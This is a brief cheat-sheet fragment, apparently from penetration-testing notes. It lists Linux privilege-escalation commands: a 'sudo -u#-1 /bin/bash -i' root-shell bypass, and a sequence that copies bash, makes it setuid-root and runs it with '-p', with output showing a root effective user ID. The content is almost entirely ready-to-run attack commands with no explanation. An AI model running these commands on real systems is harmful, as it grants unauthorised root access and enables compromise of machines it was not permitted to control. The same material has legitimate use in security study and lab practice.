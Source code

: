 #### Sudo Bash
```
sudo -u#-1 /bin/bash -i
```

#### Making Bash Executable for Root Priv Esc
```
cp /usr/bin/bash /home/james/

sudo chown root:root bash

sudo chmod +s bash

./bash -p

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```
